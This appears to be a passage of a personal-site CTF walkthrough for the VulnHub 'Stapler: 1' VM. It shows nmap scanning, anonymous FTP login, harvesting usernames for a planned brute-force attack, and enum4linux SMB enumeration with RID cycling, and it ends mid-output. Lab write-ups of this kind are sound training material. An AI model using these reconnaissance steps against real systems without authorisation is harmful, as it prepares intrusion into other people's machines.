


<!DOCTYPE html>
<html lang="en">

<head>
<meta charset="UTF-8">
<meta name="description" content="">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
<!-- The above 4 meta tags *must* come first in the head; any other head content must come *after* these tags -->

<!-- Title -->
<title>Gandosha - Autodidacticism.</title>

<!-- Core Stylesheet -->
<link rel="stylesheet" href="style.css">

</head>

<body>
<!-- Preloader -->
<div id="preloader">
<div class="loader"></div>
</div>

<div class="vcard-main-wrapper">
<div class="vcard-content-wrapper bg-img" style="background-image: url(img/bg-img/bgssss.jpg);">
<!-- Header Area -->
<header class="header_area">
<!-- Logo -->
<div class="logo d-flex justify-content-center align-items-center">
<a href="index-horizontal-about.html"></a>
<!-- Navbar Toggle -->
<div class="nav-toggle">
<i class="fa fa-bars"></i>
</div>
</div>

<!-- Menu -->
<ul class="vcard-nav">
<li><a href="https://github.com/Gandosha" data-toggle="tooltip" data-placement="top" title="Github"><i class="fa fa-fw fa-github" aria-hidden="true"></i></a></li>
<li><a href="index.html">About</a></li>
<li class="active"><a href="walkthroughs.html">CTF Walkthroughs</a></li>
<li><a href="cheatsheets.html">Cheat Sheets</a></li>
</ul>
</header>

<!-- Vcard Page Content -->
<div class="vcard-page-content-wrapper d-flex align-items-end">
<div class="page-content">

<!-- ##### VM Title and link ##### -->
<div class="about-me-area section-padding-100 clearfix">
<div class="container-fluid">
<div class="row align-items-end">
<div class="about-me-text">
<hr>
<p><h2>Stapler: 1</h2>
<h7>VM: https://www.vulnhub.com/entry/stapler-1,150/</h7></p>
<hr>
<br>
<br>
<br>
<br>
<p><h3>Information Gathering:</h3></p>
<hr>
<p><font size="3.5" color="black">First, I fired up HaGashash in order to gain some information about which host to attack and what interesting ports are there. (https://github.com/Gandosha/HaGashash).</font></p>
<pre style="background-color:black;color:white;">
[GandoPC ~]# go run go/src/github.com/Gandosha/HaGashash/main.go -project=Stapler -subnet=true -interface=enp0s3

<-=|HaGashash by Gandosha|=->

[+] nmap executable is in '/usr/bin/nmap'
[+] ifconfig executable is in '/usr/bin/ifconfig'
[!] Dependencies check is completed successfully.


[!] Starting to scan your subnet.

 
[+] Alive hosts in 192.168.43.0/24 are:

192.168.43.1

192.168.43.2

192.168.43.10

192.168.43.3


[+] Directory created at: /HaGashash_Projects/Stapler/192.168.43.1.


[!] Starting to scan 192.168.43.1 for TCP interesting stuff.


[!] Starting to scan 192.168.43.1 for UDP interesting stuff.


[+] Directory created at: /HaGashash_Projects/Stapler/192.168.43.2.


[!] Starting to scan 192.168.43.2 for TCP interesting stuff.


[!] Starting to scan 192.168.43.2 for UDP interesting stuff.


[+] Directory created at: /HaGashash_Projects/Stapler/192.168.43.10.


[!] Starting to scan 192.168.43.10 for TCP interesting stuff.


[!] Starting to scan 192.168.43.10 for UDP interesting stuff.


[+] Directory created at: /HaGashash_Projects/Stapler/192.168.43.3.


[!] Starting to scan 192.168.43.3 for UDP interesting stuff.


[!] Starting to scan 192.168.43.3 for TCP interesting stuff.


[+] Nmap's TCP script scanning on 192.168.43.3 is completed successfully.


[+] Nmap's UDP script scanning on 192.168.43.3 is completed successfully.


[+] Nmap's TCP script scanning on 192.168.43.10 is completed successfully.


[+] Nmap's TCP script scanning on 192.168.43.1 is completed successfully.


[+] Nmap's TCP script scanning on 192.168.43.2 is completed successfully.


[+] Nmap's UDP script scanning on 192.168.43.10 is completed successfully.


[+] Nmap's UDP script scanning on 192.168.43.1 is completed successfully.


[+] Nmap's UDP script scanning on 192.168.43.2 is completed successfully.


[+] Summary file for 192.168.43.10 is ready.


[+] Summary file for 192.168.43.1 is ready.


[+] Summary file for 192.168.43.3 is ready.


[+] Summary file for 192.168.43.2 is ready.

[gandosha@GandoPC ~]$ cat /HaGashash_Projects/Stapler/192.168.43.10/nmap_TCP_scan_output
# Nmap 7.70 scan initiated Tue Sep 25 13:16:02 2018 as: nmap -sS -p- -A -T4 -Pn -vv -oN /HaGashash_Projects/Stapler/192.168.43.10/nmap_TCP_scan_output 192.168.43.10
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.43.10
Host is up, received arp-response (0.0063s latency).
Scanned at 2018-09-25 13:16:04 IDT for 143s
Not shown: 65523 filtered ports
Reason: 65523 no-responses
PORT      STATE  SERVICE     REASON         VERSION
20/tcp    closed ftp-data    reset ttl 64
21/tcp    open   ftp         syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.43.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh         syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 81:21:ce:a1:1a:05:b1:69:4f:4d:ed:80:28:e8:99:05 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDc/xrBbi5hixT2B19dQilbbrCaRllRyNhtJcOzE8x0BM1ow9I80RcU7DtajyqiXXEwHRavQdO+/cHZMyOiMFZG59OCuIouLRNoVO58C91gzDgDZ1fKH6BDg+FaSz+iYZbHg2lzaMPbRje6oqNamPR4QGISNUpxZeAsQTLIiPcRlb5agwurovTd3p0SXe0GknFhZwHHvAZWa2J6lHE2b9K5IsSsDzX2WHQ4vPb+1DzDHV0RTRVUGviFvUX1X5tVFvVZy0TTFc0minD75CYClxLrgc+wFLPcAmE2C030ER/Z+9umbhuhCnLkLN87hlzDSRDPwUjWr+sNA3+7vc/xuZul
|   256 5b:a5:bb:67:91:1a:51:c2:d3:21:da:c0:ca:f0:db:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNQB5n5kAZPIyHb9lVx1aU0fyOXMPUblpmB8DRjnP8tVIafLIWh54wmTFVd3nCMr1n5IRWiFeX1weTBDSjjz0IY=
|   256 6d:01:b7:73:ac:b0:93:6f:fa:b9:89:e6:ae:3c:ab:d3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ9wvrF4tkFMApswOmWKpTymFjkaiIoie4QD0RWOYnny
53/tcp    open   domain      syn-ack ttl 64 dnsmasq 2.75
| dns-nsid: 
|_  bind.version: dnsmasq-2.75
80/tcp    open   http        syn-ack ttl 64 PHP cli server 5.5 or later
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: 404 Not Found
123/tcp   closed ntp         reset ttl 64
137/tcp   closed netbios-ns  reset ttl 64
138/tcp   closed netbios-dgm reset ttl 64
139/tcp   open   netbios-ssn syn-ack ttl 64 Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
666/tcp   open   doom?       syn-ack ttl 64
| fingerprint-strings: 
|   NULL: 
|     message2.jpgUT 
|     QWux
|     "DL[E
|     #;3[
|     \xf6
|     u([r
|     qYQq
|     Y_?n2
|     3&M~{
|     9-a)T
|     L}AJ
|_    .npy.9
3306/tcp  open   mysql       syn-ack ttl 64 MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 7
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, SupportsCompression, SupportsTransactions, DontAllowDatabaseTableColumn, ConnectWithDatabase, LongPassword, IgnoreSigpipes, FoundRows, LongColumnFlag, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolOld, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: :#x}t	]g\x14\x1A\x07OuH'S@){[
|_  Auth Plugin Name: 88
12380/tcp open   http        syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tim, we need to-do better next year for Initech
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port666-TCP:V=7.70%I=7%D=9/25%Time=5BAA0B42%P=x86_64-unknown-linux-gnu%
SF:r(NULL,1000,"PK\x03\x04\x14\0\x02\0\x08\0d\x80\xc3Hp\xdf\x15\x81\xaa,\0
SF:\0\x152\0\0\x0c\0\x1c\0message2\.jpgUT\t\0\x03\+\x9cQWJ\x9cQWux\x0b\0\x
SF:01\x04\xf5\x01\0\0\x04\x14\0\0\0\xadz\x0bT\x13\xe7\xbe\xefP\x94\x88\x88
SF:A@\xa2\x20\x19\xabUT\xc4T\x11\xa9\x102>\x8a\xd4RDK\x15\x85Jj\xa9\"DL\[E
SF:\xa2\x0c\x19\x140<\xc4\xb4\xb5\xca\xaen\x89\x8a\x8aV\x11\x91W\xc5H\x20\
SF:x0f\xb2\xf7\xb6\x88\n\x82@%\x99d\xb7\xc8#;3\[\r_\xcddr\x87\xbd\xcf9\xf7
SF:\xaeu\xeeY\xeb\xdc\xb3oX\xacY\xf92\xf3e\xfe\xdf\xff\xff\xff=2\x9f\xf3\x
SF:99\xd3\x08y}\xb8a\xe3\x06\xc8\xc5\x05\x82>`\xfe\x20\xa7\x05:\xb4y\xaf\x
SF:f8\xa0\xf8\xc0\^\xf1\x97sC\x97\xbd\x0b\xbd\xb7nc\xdc\xa4I\xd0\xc4\+j\xc
SF:e\[\x87\xa0\xe5\x1b\xf7\xcc=,\xce\x9a\xbb\xeb\xeb\xdds\xbf\xde\xbd\xeb\
SF:x8b\xf4\xfdis\x0f\xeeM\?\xb0\xf4\x1f\xa3\xcceY\xfb\xbe\x98\x9b\xb6\xfb\
SF:xe0\xdc\]sS\xc5bQ\xfa\xee\xb7\xe7\xbc\x05AoA\x93\xfe9\xd3\x82\x7f\xcc\x
SF:e4\xd5\x1dx\xa2O\x0e\xdd\x994\x9c\xe7\xfe\x871\xb0N\xea\x1c\x80\xd63w\x
SF:f1\xaf\xbd&&q\xf9\x97'i\x85fL\x81\xe2\\\xf6\xb9\xba\xcc\x80\xde\x9a\xe1
SF:\xe2:\xc3\xc5\xa9\x85`\x08r\x99\xfc\xcf\x13\xa0\x7f{\xb9\xbc\xe5:i\xb2\
SF:x1bk\x8a\xfbT\x0f\xe6\x84\x06/\xe8-\x17W\xd7\xb7&\xb9N\x9e<\xb1\\\.\xb9
SF:\xcc\xe7\xd0\xa4\x19\x93\xbd\xdf\^\xbe\xd6\xcdg\xcb\.\xd6\xbc\xaf\|W\x1
SF:c\xfd\xf6\xe2\x94\xf9\xebj\xdbf~\xfc\x98x'\xf4\xf3\xaf\x8f\xb9O\xf5\xe3
SF:\xcc\x9a\xed\xbf`a\xd0\xa2\xc5KV\x86\xad\n\x7fou\xc4\xfa\xf7\xa37\xc4\|
SF:\xb0\xf1\xc3\x84O\xb6nK\xdc\xbe#\)\xf5\x8b\xdd{\xd2\xf6\xa6g\x1c8\x98u\
SF:(\[r\xf8H~A\xe1qYQq\xc9w\xa7\xbe\?}\xa6\xfc\x0f\?\x9c\xbdTy\xf9\xca\xd5
SF:\xaak\xd7\x7f\xbcSW\xdf\xd0\xd8\xf4\xd3\xddf\xb5F\xabk\xd7\xff\xe9\xcf\
SF:x7fy\xd2\xd5\xfd\xb4\xa7\xf7Y_\?n2\xff\xf5\xd7\xdf\x86\^\x0c\x8f\x90\x7
SF:f\x7f\xf9\xea\xb5m\x1c\xfc\xfef\"\.\x17\xc8\xf5\?B\xff\xbf\xc6\xc5,\x82
SF:\xcb\[\x93&\xb9NbM\xc4\xe5\xf2V\xf6\xc4\t3&M~{\xb9\x9b\xf7\xda-\xac\]_\
SF:xf9\xcc\[qt\x8a\xef\xbao/\xd6\xb6\xb9\xcf\x0f\xfd\x98\x98\xf9\xf9\xd7\x
SF:8f\xa7\xfa\xbd\xb3\x12_@N\x84\xf6\x8f\xc8\xfe{\x81\x1d\xfb\x1fE\xf6\x1f
SF:\x81\xfd\xef\xb8\xfa\xa1i\xae\.L\xf2\\g@\x08D\xbb\xbfp\xb5\xd4\xf4Ym\x0
SF:bI\x96\x1e\xcb\x879-a\)T\x02\xc8\$\x14k\x08\xae\xfcZ\x90\xe6E\xcb, NetBIOS MAC:  (unknown)
| Names:
|   RED<00>              Flags: 
|   RED<03>              Flags: 
|   RED<20>              Flags: 
|   \x01\x02__MSBROWSE__\x02<01>  Flags: 
|   WORKGROUP<00>        Flags: 
|   WORKGROUP<1d>        Flags: 
|   WORKGROUP<1e>        Flags: 
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 34093/tcp): CLEAN (Timeout)
|   Check 2 (port 56485/tcp): CLEAN (Timeout)
|   Check 3 (port 25126/udp): CLEAN (Timeout)
|   Check 4 (port 2249/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: red
|   NetBIOS computer name: RED\x00
|   Domain name: \x00
|   FQDN: red
|_  System time: 2018-09-25T14:17:50+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-09-25 16:17:50
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   6.32 ms 192.168.43.10

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 25 13:18:27 2018 -- 1 IP address (1 host up) scanned in 146.83 seconds					
</pre>
<hr>
<br>
<br>
<p><h3>Port 21 check:</h3></p>
<hr>
<p><font size="3.5" color="black">Attempt to access FTP with anonymous creds (U:anonymous,P:anonymous):</font></p>
<pre style="background-color:black;color:white;">
[GandoPC 192.168.43.10]# ftp 192.168.43.10
Connected to 192.168.43.10.
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220 
Name (192.168.43.10:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.00887 seconds (11.8 kbytes/s)
ftp> quit
221 Goodbye.
[GandoPC 192.168.43.10]# cat note
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
[GandoPC 192.168.43.10]# printf 'Elly\nJohn\n' > potential_users
</pre>
<p><font size="3.5" color="black">Got some user names for future brute force attack. I always keep this option as a "last stand" if everything goes wrong.</font></p>
<hr>
<br>
<br>
<p><h3>Port 80 check:</h3></p>
<hr>
<p><font size="3.5" color="black">Attempt to access via http port 80:</font></p> 

<br>
<br>
<p><font size="3.5" color="black">There's nothing here? I tried to use some power in order to discover some content:</font></p>

<br>
<br>
<p><font size="3.5" color="black">NADA :(</font></p>
<p><font size="3.5" color="black">Attempt to access via https port 80:</font></p>

<br>
<br>
<p><font size="3.5" color="black">Nothing here too.</font></p>
<hr>
<br>
<br>
<p><h3>Port 139 check:</h3></p>
<hr>
<p><font size="3.5" color="black">Attempt to enumerate some shares:</font></p>
<pre style="background-color:black;color:white;">
[GandoPC 192.168.43.10]# enum4linux 192.168.43.10
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Sep 25 14:16:33 2018

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.43.10
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===================================================== 
|    Enumerating Workgroup/Domain on 192.168.43.10    |
 ===================================================== 
[+] Got domain/workgroup name: WORKGROUP

 ============================================= 
|    Nbtstat Information for 192.168.43.10    |
 ============================================= 
Looking up status of 192.168.43.10
	RED             <00> -         H   Workstation Service
	RED             <03> -         H   Messenger Service
	RED             <20> -         H   File Server Service
	..__MSBROWSE__. <01> -  H   Master Browser
	WORKGROUP       <00> -  H   Domain/Workgroup Name
	WORKGROUP       <1d> -         H   Master Browser
	WORKGROUP       <1e> -  H   Browser Service Elections

	MAC Address = 00-00-00-00-00-00

 ====================================== 
|    Session Check on 192.168.43.10    |
 ====================================== 
[+] Server 192.168.43.10 allows sessions using username '', password ''

 ============================================ 
|    Getting domain SID for 192.168.43.10    |
 ============================================ 
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ======================================= 
|    OS information on 192.168.43.10    |
 ======================================= 
Use of uninitialized value $os_info in concatenation (.) or string at /usr/bin/enum4linux line 464.
[+] Got OS info for 192.168.43.10 from smbclient: 
[+] Got OS info for 192.168.43.10 from srvinfo:
	RED            Wk Sv PrQ Unx NT SNT red server (Samba, Ubuntu)
	platform_id     :	500
	os version      :	6.1
	server type     :	0x809a03

 ============================== 
|    Users on 192.168.43.10    |
 ============================== 
Use of uninitialized value $users in print at /usr/bin/enum4linux line 874.
Use of uninitialized value $users in pattern match (m//) at /usr/bin/enum4linux line 877.

Use of uninitialized value $users in print at /usr/bin/enum4linux line 888.
Use of uninitialized value $users in pattern match (m//) at /usr/bin/enum4linux line 890.

 ========================================== 
|    Share Enumeration on 192.168.43.10    |
 ========================================== 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	kathy           Disk      Fred, What are we doing here?
	tmp             Disk      All temporary files should be stored here
	IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            RED

[+] Attempting to map shares on 192.168.43.10
//192.168.43.10/print$	Mapping: DENIED, Listing: N/A
//192.168.43.10/kathy	Mapping: OK, Listing: OK
//192.168.43.10/tmp	Mapping: OK, Listing: OK
//192.168.43.10/IPC$	[E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

 ===================================================== 
|    Password Policy Information for 192.168.43.10    |
 ===================================================== 
[E] Dependent program "polenum.py" not present.  Skipping this check.  Download polenum from http://labs.portcullis.co.uk/application/polenum/


 =============================== 
|    Groups on 192.168.43.10    |
 =============================== 

[+] Getting builtin groups:

[+] Getting builtin group memberships:

[+] Getting local groups:

[+] Getting local group memberships:

[+] Getting domain groups:

[+] Getting domain group memberships:

 ======================================================================== 
|    Users on 192.168.43.10 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-864226560-67800430-3082388513
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-864226560-67800430-3082388513 and logon username '', password ''
S-1-5-21-864226560-67800430-3082388513-500 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-501 RED\nobody (Local User)
S-1-5-21-864226560-67800430-3082388513-502 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-503 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-504 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-505 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-506 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-507 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-508 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-509 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-510 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-511 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-512 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-513 RED\None (Domain Group)
S-1-5-21-864226560-67800430-3082388513-514 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-515 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-516 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-517 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-518 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-519 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-520 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-521 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-522 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-523 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-524 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-525 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-526 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-527 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-528 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-529 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-530 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-531 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-532 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-533 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-534 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-535 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-536 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-537 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-538 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-539 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-540 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-541 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-542 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-543 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-544 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-545 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-546 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-547 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-548 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-549 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-550 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1000 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1001 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1002 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1003 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1004 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1005 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1006 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1007 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1008 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1009 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1010 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1011 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1012 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1013 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1014 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1015 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1016 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1017 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1018 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1019 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1020 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1021 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1022 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1023 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1024 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1025 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1026 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1027 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1028 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1029 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1030 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1031 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1032 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1033 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1034 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1035 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1036 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1037 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1038 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1039 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1040 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1041 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1042 *unknown*\*unknown* (8)
S-1-5-21-864226560-67800430-3082388513-1043 *unknown*\*unknown* (8)
